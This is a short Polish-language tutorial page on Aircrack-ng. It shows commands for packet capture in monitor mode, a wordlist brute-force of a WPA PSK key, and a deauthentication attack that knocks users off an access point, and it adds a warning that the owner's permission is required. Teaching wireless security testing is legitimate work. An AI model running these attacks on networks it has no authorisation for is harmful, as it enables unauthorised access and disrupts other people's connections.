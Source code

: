 # Aircrack-ng

Aircrack-ng to kompletne narzędzie do oceny bezpieczeństwa sieci Wi-Fi. Zawiera różne programy do przechwytywania pakietów, monitorowania ruchu sieciowego, ataków typu brute-force na klucze sieci Wi-Fi oraz testowania bezpieczeństwa sieci bezprzewodowych.

{% hint style="warning" %}
Używanie Aircrack-ng, podobnie jak każdego innego narzędzia do testowania penetracji, wymaga uprzedniego uzyskania zgody od właściciela sieci. Bez odpowiednich uprawnień, korzystanie z Aircrack-ng jest nielegalne.
{% endhint %}

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań Aircrack-ng.

### Przechwytywanie pakietów

Aby przechwycić pakiety w sieci bezprzewodowej można użyć programu *airmon-ng* do przełączenia karty sieciowej w tryb monitorowania, a następnie *airodump-ng* do przechwytywania pakietów:

```bash
airmon-ng start wlan0
airodump-ng wlan0mon
```

### Atak typu brute-force na hasło sieci Wi-Fi

Gdy pakiety są już przechwytywane, można użyć *aircrack-ng* do ataku typu brute-force na hasło sieci Wi-Fi. Poniżej przykład ataku na sieć z WPA PSK:

```bash
aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 capture.cap
```

Gdzie:

- `wordlist.txt` to plik z listą haseł do wypróbowania,
- `00:11:22:33:44:55` to adres MAC punktu dostępowego,
- `capture.cap` to plik z przechwyconymi pakietami.

### Atak deautentykacji

Atak deautentykacji, czyli odłączanie użytkowników od sieci, może być przeprowadzony za pomocą *aireplay-ng*:

```bash
aireplay-ng --deauth 100 -a 00:11:22:33:44:55 wlan0mon
```

Gdzie $$100$$ to liczba pakietów deautentykacji do wysłania, a `00:11:22:33:44:55` to adres MAC punktu dostępowego.
